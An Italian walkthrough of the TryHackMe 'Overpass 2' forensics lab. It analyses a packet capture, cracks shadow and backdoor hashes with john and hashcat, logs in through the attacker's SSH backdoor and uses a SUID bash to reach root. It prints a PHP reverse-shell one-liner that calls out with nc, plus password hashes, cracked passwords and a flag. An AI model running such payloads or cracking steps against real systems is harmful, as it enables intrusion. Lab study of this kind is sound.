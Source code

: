 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/overpass2hacked

scarichiamo il file overpass2_1595383502269.pcapng

```
wireshark
```
importiamo il file
alla quarta riga abbiamo una petizione GET
Tasto dx e Follow>TCP Stream
e troviamo URL adoperata GET /development/ HTTP/1.1
```
/development/
```
alla riga 14 troviamo una petizione POST
Tasto dx e Follow>TCP Stream
e troviamo un comando di reverse shell
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
seguiamo poi dalla riga 32 troviamo varie cose 

troviamo la password utilizzata
```
whenevernoteartinstant
```
e la backdoor utilizzata per la persistenza

```
git clone https://github.com/NinjaJc01/ssh-backdoor
```
prendiamo le password estratte e vediamo quante  sono craccabili
```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::

paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::

szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::

bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::

muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```
le mettiamo dentro ad un file
```
nano password
```
vediamo se abbiamo il dizionario
```
locate fasttrack
```
e utilizziamo john

```
john --wordlist=/usr/share/wordlists/fasttrack.txt password
```

==troviamo 4 password craccabili!==
ora ci facciamo il clone 
```
git clone https://github.com/NinjaJc01/ssh-backdoor
```
ed andiamo a trovare hash dentro il file main.go
```
nano main.go
```
 hash trovato
```
"bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```
What's the hardcoded ==salt== for the backdoor?
```
return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
```

salt: 1c362db832f3f864c8c2fe05f2002a05
==ora cerchiamo hash che ha utilizzato l'attaccante==
==ha il parametro -a o --hash==
```
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
e la cracchiamo con rockyou mettiamo -m 1710 è tipo di sha trovato

hashcat -m 1710 "hash:salt" percorso/rockyou
```
hashcat -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" /usr/share/wordlists/rockyou.txt
```

la password trovata è:
```
november16
```

```
sudo openvpn ~/Downloads/damaranto.ovpn
```

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.150.100 -oG risultatoscan
```

```
sudo nmap -sC -sV -p80,22,2222 10.10.150.100 -oN risultatoscan2
```

http://10.10.150.100/
sulla pagina web troviamo
```
H4ck3d by CooctusClan
```

```
ssh james@10.10.150.100 -p2222 -oHostKeyAlgorithms=+ssh-rsa
```
mettiamo la password november16

```
cd ..
```

```
cat user.txt
```

```
thm{d119b4fa8c497ddb0525f7ad200e6567}
```

```
ls -al
```

troviamo ==.suid_bash== rosso con i permessi di esecuzione root

```
./.suid_bash -p
```
	(-p di persistenza per mantenere i parametri di root)

```
whoami
```

```
cd /root
```

```
cat root.txt
```

```
thm{xxxxxxxxxxxxxxxxxx}
```